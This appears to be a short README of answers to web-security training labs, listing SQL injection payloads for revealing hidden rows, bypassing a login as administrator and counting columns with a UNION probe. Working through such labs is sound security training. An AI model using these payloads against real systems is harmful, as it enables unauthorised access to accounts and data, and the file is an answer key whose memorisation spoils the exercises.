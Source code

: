 # Burpsuite Lab Answers
## SQL injection 
### SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
#### Solution: '+OR+1=1--

### SQL injection vulnerability allowing login bypass
#### Solution: administrator'--

### SQL injection UNION attack, determining the number of columns returned by the query
#### Solution: 'UNION SELECT NULL, NULL, NULL--
